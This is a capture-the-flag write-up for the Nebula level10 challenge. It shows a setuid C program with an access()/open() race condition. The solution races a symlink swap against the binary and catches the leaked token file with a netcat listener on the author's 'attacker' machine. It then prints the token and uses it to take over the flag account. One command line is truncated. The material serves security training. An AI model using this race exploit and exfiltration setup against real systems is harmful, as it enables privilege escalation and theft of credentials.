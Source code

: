 # Level10

## Task

>The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.

>To do this level, log in as the level10 account with the password level10. Files for this level can be found in /home/flag10.

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

## Solution

The binary first checks to see if the user running the problem has access to the file (line24)  It then assumes for the rest of the execution of the program, that we still have access to it. To trick this i do the following.

```
level10@nebula:/home/flag10$ while :; do ln -fs /tmp/token /tmp/token10; ln -fs /home/flag10/token /tmp/token10; don

level10@nebula:/home/flag10$ while :; do nice -n 20 ./flag10 192.168.1.1;done
```

then on my attacker

```
{17-01-09 12:18}0cc7a14b8ffe:~ root# while :; do nc -l -p 18211 >> out.txt; done
{17-01-09 12:18}0cc7a14b8ffe:~ root# tail -f out.txt | grep -v ".oO Oo."
```

I found this to be a real challange, so its something i need to back and review, but it did work and i found the token

```
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```
then `su` to the flag user and get the flag

```
level10@nebula:/home/flag10$ su flag10
Password: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
